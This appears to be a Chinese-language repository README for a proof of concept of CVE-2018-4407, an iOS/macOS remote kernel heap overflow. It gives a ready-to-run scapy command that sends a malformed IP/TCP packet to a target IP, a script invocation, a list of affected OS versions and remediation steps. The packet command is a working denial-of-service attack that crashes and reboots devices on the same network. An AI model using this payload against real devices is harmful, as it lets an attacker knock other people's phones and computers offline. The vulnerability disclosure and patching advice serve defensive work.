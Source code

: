 # check_icmp_dos

***iOS 12 / OS X *Remote Kernel Heap Overflow (CVE-2018-4407) POC：***
```
pip install scapy
sudo scapy 
send(IP(dst=“Target IP“,options=[IPOption(“A”*8)])/TCP(dport=2323,options=[(19, “1"*18),(19, “2”*18)]))

```

或使用脚本

```
python check_icmp_dos.py 127.0.0.1
```

该漏洞使得攻击者只要接入同一Wi-Fi网络，即可向其他毫不知情的用户发送恶意数据包来触发任何Mac或iOS设备的崩溃和重启。由于该漏洞存在于系统网络核心代码，因此任何反病毒软件均无法防御。

运行以下操作系统的设备易受攻击：
```
Apple iOS 11及更早版本：所有设备（升级到iOS 12的部分设备）

Apple macOS High Sierra（受影响的最高版本为10.13.6）：所有设备（通过安全更新2018-001修复）

Apple macOS Sierra（受影响的最高版本为10.12.6）：所有设备（通过安全更新2018-005中修复）

Apple OS X El Capitan及更早版本：所有设备

```



# 修复建议

目前，苹果官方已经发布了版本更新修复了该漏洞，建议用户及时确认系统版本，如受影响，请及时采取修补措施。漏洞修补措施如下：
1. 进行系统更新，更新到最新版本
2. 如果没有更新到最新版本，可在macOS防火墙中启用隐藏模式可防止攻击，这个系统设置默认情况下不启用，需要用户手动开启。
3. 不接入公共无线网络。触发该漏洞的唯一必要条件是处于同一网络，该漏洞不支持通过互联网发送恶意数据包而触发
